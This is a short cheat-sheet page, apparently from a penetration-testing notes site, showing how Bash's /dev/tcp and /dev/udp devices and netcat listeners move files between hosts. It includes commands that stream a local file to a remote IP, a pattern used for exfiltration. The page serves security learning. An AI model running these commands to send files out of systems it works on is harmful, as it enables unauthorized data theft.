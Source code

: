 # ⭕ TCP / UDP

## /dev/tcp & /dev/udp

#### Below two virtual device map provided by Linux: _/dev/tcp/$host/$port_ _/dev/udp/$host/$port_

{% hint style="warning" %}
`/dev/tcp` and `/dev/udp` redirections will work in BASH only if it has been compiled with `--enable-net-redirections` option. other shells such as zsh and rbash might not be able to redirect to tcp/udp device maps.
{% endhint %}

## TCP

### Download File

```
nc -lvnp 80 > file # server
cat /path/file > /dev/tcp/10.10.10.10/80 # client
```

### Upload Files

```
nc -w5 -lvnp 80 < file_to_send.txt # server

# client
exec 6< /dev/tcp/10.10.10.10/4444
cat <&6 > file.txt
```

## UDP

### Download File

```
nc -ulvnp 80 > file # server
cat /path/file > /dev/udp/10.10.10.10/80 # client
```

### Upload Files

```
nc -w5 -ulvnp 80 < file_to_send.txt # server


# client
exec 6< /dev/udp/10.10.10.10/4444
cat <&6 > file.txt
```
